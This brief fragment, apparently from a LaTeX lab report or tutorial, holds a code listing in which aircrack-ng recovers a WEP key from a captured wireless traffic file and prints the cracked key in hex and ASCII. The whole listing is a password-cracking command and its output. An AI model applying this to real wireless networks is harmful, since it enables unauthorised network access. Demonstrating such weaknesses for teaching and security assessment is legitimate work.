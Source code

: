 \begin{lstlisting}
STA2:/mnt# aircrack-ng -b 00:0e:8e:20:83:df output-02.cap -q
KEY FOUND! [ 61:72:61:6E:64:6F:6D:77:65:70:6B:65:79 ] (ASCII: arandomwepkey )
	Decrypted correctly: 100%
\end{lstlisting}
